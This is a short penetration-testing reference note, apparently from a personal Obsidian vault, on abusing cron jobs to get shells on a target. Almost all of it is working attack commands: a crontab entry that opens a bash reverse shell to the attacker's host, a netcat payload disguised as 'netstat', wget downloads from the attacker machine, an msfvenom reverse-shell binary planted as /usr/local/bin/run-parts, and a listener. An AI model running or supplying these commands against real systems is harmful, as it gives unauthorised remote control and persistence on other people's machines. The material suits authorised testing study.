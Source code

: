 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Echo cron job

```bash - target
(crontab -l ; echo "* * * * * bash -i >& /dev/tcp/$KALI/443 0>&1 &") | crontab -
```

#### Example 1

![[Pasted image 20220225224851.png|1000]]

Target:
```bash - target
cd /dev/shm
```

Kali
```bash - kali
echo 'nc $KALI 443 -e /bin/bash' > netstat
```


![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Target:
```bash - target
wget http://$KALI/netstat
```

```bash - target
chmod +x netsat
```

![[rlwrap]]

#### Example 2

![[Pasted image 20220302210353.png]]

![[Pasted image 20220302210759.png]]

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=3000 -f elf > run-parts
```

```bash - target
cd /usr/local/bin
```

```bash - target
wget http://$KALI:3000/run-parts
```

```bash - target
chmod +x /usr/local/bin/run-parts
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```

Wait the 5 minutes for the code to run.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
